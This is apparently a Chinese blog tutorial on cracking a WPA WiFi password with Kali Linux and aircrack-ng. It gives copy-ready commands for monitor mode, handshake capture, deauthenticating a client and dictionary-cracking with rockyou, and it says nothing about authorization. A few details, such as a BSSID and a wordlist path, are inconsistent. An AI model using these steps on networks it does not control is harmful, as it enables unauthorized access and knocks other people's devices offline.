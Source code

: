 ```yaml
---
title: 用 Kali-Linux 进行 Wifi 破解
date: 2016-12-20 9:43:12
tags: 
    - Wifi
    - Kali
    - 网络安全
---
```


<h3>1.找一个字典文件</h3>
这里用 Kali Linux 自带的`rockyou`字典，
使用前先解压。
```
gzip -d /usr/share/wordlist/rockyou.txt.gz
```

<h3>2.断开链接的WiFi</h3>
```
airmon-ng
```
列出所有支持监控模式的网卡。

<h3>3.监听网卡</h3>

```
airmon-ng start wlan0
```
此时网卡就处于监听模式，被监听的网卡变为 wlan0mon。<br>
可使用`ifconfig`命令查看。

<h3>4.查看WiFi网络</h3>
```
airodump-ng wlan0mon
```
可以看到周围WiFi的详细信息，包括信号强度、加密类型、频道(CH)等。<br>
要记住破解WIFI的频道号和BSSID。

<h3>5.抓取握手包</h3>
```
airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 -w ~/ wlan0mon
```
`6` 频道号(CH)<br>
`C8:3A....` 目标BSSID号<br>
`-w` 抓取数据包保存位置<br>

<h3>6.强制让设备重连WiFi</h3>
原理：给链接到WiFi的一个设备发送一个deauth(反认证)包，让那个设备断开WiFi，
随后它自然会再次链接。
```
aireplay-ng -0 2 -a C8:3A:35:60:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon
```
`-0` 发送反认证包的个数 <br>
`-a` 指定路由器BSSID <br>
`-c` 指定强制断开的设备 <br>

成功监听到握手包后：`Ctrl+C` 结束抓包。<br>
```
airmon-ng stop wlan0mon
```
结束监听。

<h3>7.开始破解握手包密码</h3>
```
aircrack-ng -a2 -b C8:3A:35:60:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
```
`-a2`代表握手包 <br>
`-b` 指定要破解的WiFi BSSID <br>
`-w` 指定字典文件 <br>
最后是抓取的包 <br>